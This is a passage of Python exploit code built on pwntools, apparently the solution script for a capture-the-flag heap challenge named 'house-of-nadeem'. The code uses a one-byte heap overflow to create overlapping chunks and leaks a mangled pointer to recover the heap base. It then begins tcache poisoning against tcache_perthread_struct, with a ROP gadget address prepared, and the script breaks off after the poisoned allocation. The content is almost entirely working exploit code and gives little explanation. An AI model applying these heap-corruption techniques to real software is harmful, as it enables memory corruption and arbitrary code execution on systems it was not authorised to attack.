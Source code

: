 ```python
    input("ATTACHED?")

def sendchoice(choice: int):
    p.sendlineafter("$ ", str(choice).encode())

def alloc(idx: int, size: int):
    sendchoice(1)

    p.sendlineafter("? ", str(idx).encode())
    p.sendlineafter("? ", str(size).encode())

    return idx

def free(idx: int):
    sendchoice(2)

    p.sendlineafter("? ", str(idx).encode())

def read(idx: int):
    sendchoice(3)

    p.sendlineafter("? ", str(idx).encode())    

def write(idx: int, payload: bytes):
    sendchoice(4)

    p.sendlineafter("? ", str(idx).encode())
    p.send(payload)

context.binary = elf = ELF("./house-of-nadeem_patched")
libc = elf.libc

POP_RDI = 0x000000000010f75b

p = start()

# Allocations
A = alloc(0, 0x18)
B = alloc(1, 0x30)
C = alloc(2, 0x100)
D = alloc(6, 0x100)

# Use one-byte overflow to overflow B and C
write(A, b'A'*0x18 + b'\x81')
free(B)

# Get overlapped chunk
B = alloc(B, 0x70)
read(B)

# Read mangled pointer
heap_base = u64(p.recv(8)) << 12

print(hex(heap_base))

# tcache poisoning to get tcache_perthread_struct
free(D)
free(C)

write(B, b'A'*0x38 + p64(0x111) + p64((heap_base + 0x10) ^ (heap_base >> 12)))

C = alloc(C, 0x100)

```